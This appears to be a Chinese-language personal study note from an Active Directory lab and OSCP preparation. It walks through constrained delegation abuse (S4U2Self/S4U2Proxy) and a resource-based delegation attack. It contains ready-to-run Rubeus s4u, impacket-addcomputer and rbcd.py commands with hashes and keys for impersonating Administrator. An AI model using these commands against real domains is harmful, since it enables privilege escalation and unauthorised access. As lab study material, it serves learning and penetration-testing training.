 ```
objectcategory :
CN=Person,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata : {11/14/2022 12:42:13 PM, 1/1/1601 12:00:00 AM}
serviceprincipalname : {SNMP/ufc-adminsrv.dollarcorp.moneycorp.LOCAL,
SNMP/ufc-adminsrv}
givenname : web
usnchanged : 38144
lastlogon : 11/16/2022 4:05:33 AM
badpwdcount : 0
cn : web svc
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD,
TRUSTED_TO_AUTH_FOR_DELEGATION   
objectsid : S-1-5-21-719815819-3726368948-3917688648-1114
primarygroupid : 513
pwdlastset : 11/14/2022 4:42:13 AM
name : web svc
[snip]
```
列舉的輸出，應該特別注意以下
```
userprincipalname : websvc
msds-allowedtodelegateto : {CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL,CIFS/dcorp-mssql}
TRUSTED_TO_AUTH_FOR_DELEGATION
```
### Constrained Delegation利用
>[!WARNING]
>攻擊條件 : 攻擊者已經拿到一個有 Constrained Delegation 權限的帳號
1. **取得該服務帳號的 key**
       - 透過 Kerberoasting、配置不當、憑證 dump 等方式得到 `websvc` 的密碼雜湊/AES key。
2. **S4U2Self (假裝任何使用者)**
    - 攻擊者用 `websvc` 的金鑰請求一張「我代表 Administrator 的 TGS」(S4U2Self)。
    - 這張票雖然是 `Administrator` 身分，但只能給 `websvc` 自己用。
3. **S4U2Proxy (轉換成目標服務票)**
    - 接著 `websvc` 用這張假扮 Administrator 的 TGS，去 KDC 要「我要拿 Administrator 身份去訪問 SQL (`MSSQLSvc/sql01`) 的票」。
    - KDC 看到 `websvc` 的 `msDS-AllowedToDelegateTo` 列出了 `MSSQLSvc/sql01`，就簽給它。
4. **使用票證**
    - 攻擊者得到一張「Administrator → SQL」的合法 Kerberos 票（TGS），然後可以直接 Pass-the-Ticket 存取 SQL。

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt
```
```
klist
```
```
dir \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```


### 以下是考OSCP時期不知道從哪個Write-UP抄來的
>[!WARNING]
>當在BloodHound發現帳號對DC有Generic All權限時，他可能可以這樣打 
- 利用impacket-addcomputer 建立一個machine帳戶
```
impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.241.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
```
- 利用rbcd.py不知道衝三小 
[GitHub連結](https://github.com/tothi/rbcd-attack?source=post_page-----50c25c5a23c5--------------------------------)
```
 /opt/rbcd-attack/rbcd.py -dc-ip 192.168.241.175 -t RESOURCEDC -f 'ATTACK' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone  
```